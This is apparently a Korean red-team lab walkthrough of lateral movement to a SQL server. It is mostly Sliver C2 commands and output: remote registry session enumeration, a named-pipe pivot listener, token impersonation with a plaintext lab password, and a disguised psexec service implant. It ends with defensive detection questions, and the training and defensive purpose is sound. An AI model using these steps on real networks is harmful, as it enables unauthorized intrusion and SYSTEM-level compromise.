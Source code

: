 # 5. 횡적 이동: USWKSTN01 -> SQL01

이번 섹션에서는 다음과 같은 주제들을 다룬다:

* 커버로스팅을 통해 탈취한 US\SF\_MSSQL\_SVC 계정의 권한
* SQL01.us.rt.local 서버 대상의 정보 수집 이후 횡적 이동
* 피벗 리스너와 SMB 에이전트의 활용
* SQL01에서의 권한 상승

<figure><img src="../.gitbook/assets/AttackPath4-sql01-lateralmovement.drawio.png" alt=""><figcaption></figcaption></figure>

앞서 커버로스팅 공격을 통해 US\SF\_MSSQL\_SVC 유저의 계정 정보를 확보했다. 또한 WinRM을 통해 명령어 실행이 가능한 것으로 보아 최소 `Remote Management Users`, 최대 로컬 관리자 권한을 갖을 수 있다는 것 또한 확인했다. 해당 서비스 유저는 SQL01에 `SFMSSQLSVC/sql01.us.rt.local:1433` SPN을 갖고 있기 때문에, SQL 서버로의 횡적 이동을 시도해봐도 좋을 것 같다.

횡적 이동을 실행하기 전, 성공적인 횡적 이동을 하면 어떤 이득을 취할 수 있는지, 해당 호스트에 어떤 유저들이 세션을 구축하고 있는지 확인한다.

```
sliver (TOUGH_BREADCRUMB) > sa-regsession sql01.us.rt.local

[*] Got output:
[*] Querying registry on sql01.us.rt.local...

-----------Registry Session---------
UserSid: S-1-5-21-3171536543-709093172-2066445559-1857
Host: sql01.us.rt.local
---------End Registry Session-------
```

SID값이 나오게 되는데, 이를 블러드하운드에 넣어보면 Rahat.Kuma 라는 유저가 나온다. 해당 유저는 SuperUsers OU에 속해있고, ITAdmin 그룹에 속해있다.

<figure><img src="../.gitbook/assets/privesc-sql01-rahat-kuma-bloodhound.png" alt=""><figcaption></figcaption></figure>

유저를 장악한 뒤에 다시 한 번 블러드하운드를 돌려봐야겠지만, 일단은 SQL 서비스 계정에서 IT 관리자 계정까지 권한 상승을 할 수 있는 공격 경로가 보이는 것 같다.

그럼 이제 USWKSTN01에서 SQL01으로 횡적 이동을 한 다음, SQL01 호스트에서 Rahat.Kuma와 관련된 계정 정보를 획득하는 공격을 실행한다.

SQL 서버와 같이 백엔드 서버로의 횡적 이동은 몇 가지 유의해야 할 점이 있다:

* DB과 같은 백엔드 서버들은 인터넷이 차단된 망에서 운영되는 경우가 많다.
* 그렇기에 초기 침투와 같이 HTTP/S를 이용해 공격자 도메인으로 콜백하는 것은 실패할 확률이 높다.
* 따라서, SQL01로의 횡적 이동은 USWKSTN01 호스트에 Named Pipe를 이용한 Pivot (피벗) 리스너를 생성한 뒤, SQL01에서 USWKSTN01으로 콜백하는 피벗 에이전트를 이용한다.

먼저 USWKSTN01에서 피벗 리스너를 생성한다.

```
// Pivot 리스너를 위한 Interactive 
sliver (TOUGH_BREADCRUMB) > interactive

[*] Session 42ffc3a3 TOUGH_BREADCRUMB - tcp(127.0.0.1:38730)->2a06:98c0:3600::103 (uswkstn01) - windows/amd64 - Sun, 19 Jan 2025 02:08:38 UTC

sliver (TOUGH_BREADCRUMB) > use 42ffc3a3-0498-4954-91d1-c874017d8df3

// 피벗 리스너 생성 
sliver (TOUGH_BREADCRUMB) > pivots named-pipe --bind mojo.10968.11628.5896583801798593585 --allow-all

[*] Started named pipe pivot listener \\.\pipe\mojo.10968.11628.5896583801798593585 with id 4
```

피벗 리스너 생성 뒤, SF\_MSSQL\_SVC 유저의 로그온 세션을 만든 다음 피벗 에이전트를 PSEXEC를 통해 SQL01로 보내 세션을 구축한다.

```
// PSEXEC용 SF_MSSQL_SVC 유저 계정 정보를 이용한 로그온 세션 구축 
sliver (TOUGH_BREADCRUMB) > make-token -d us.rt.local -u sf_mssql_svc -p sql123

[*] Successfully impersonated us.rt.local\sf_mssql_svc. Use `rev2self` to revert to your previous token.

// 네임드파이프 에이전트 생성에 이용될 프로필 생성 
sliver (TOUGH_BREADCRUMB) > profiles new --format service -p 10.2.30.100/pipe/mojo.10968.11628.5896583801798593585 sql01-namedpipe

[*] Saved new implant profile sql01-namedpipe

// PSEXEC 실행, 세션 구축 
sliver (TOUGH_BREADCRUMB) > psexec -t 30 -p sql01-namedpipe -s MSSQL-OnlineUpdater -d "Update MSSQL service without restart" -b "C:\Program Files\Microsoft SQL Server\150\Tools\Binn" sql01.us.rt.local

[*] Sliver name for profile sql01-namedpipe: EXPLICIT_SILVER                                                                                  
[*] Uploaded service binary to \\sql01.us.rt.local\C$\program files\microsoft sql server\150\tools\binn\PROGRESS2.exe
[*] Waiting a bit for the file to be analyzed ...
[*] Successfully started service on sql01.us.rt.local (C:\Program Files\Microsoft SQL Server\150\Tools\Binn\PROGRESS2.exe)
[*] Successfully removed service MSSQL-OnlineUpdater on sql01.us.rt.local

[*] Session 566eb5b1 EXPLICIT_SILVER - tcp(127.0.0.1:51154)->2a06:98c0:3600::103->TOUGH_BREADCRUMB-> (sql01) - windows/amd64 - Sun, 19 Jan 2025 02:46:04 UTC
```

최종적으로 횡적 이동을 마치면 다음과 같은 상태가 된다.

<figure><img src="../.gitbook/assets/AttackPath4-sql01-lateralmovement.drawio (1).png" alt=""><figcaption></figcaption></figure>

PSEXEC을 이용한 횡적 이동이였기 때문에 SYSTEM 권한으로 SQL01 서버에 접근했다.

<figure><img src="../.gitbook/assets/4-lateralmovement-session-info.png" alt=""><figcaption></figcaption></figure>

## 우리 회사는

* PSEXEC 스타일의 SMB 서비스 바이너리를 이용한 횡적 이동을 탐지하고 방지할 수 있는가?
* 원격으로 레지스트리를 이용한 유저 세션 정보 수집을 탐지하고 방지할 수 있는가?
* 네임드 파이프를 이용한 호스트간 네트워크 트래픽 전송 및 수상한 네임드 파이프 이름 (예. 코발트스트라이크의 MSSE...)를 블랙리스트 처리 해놨는가?



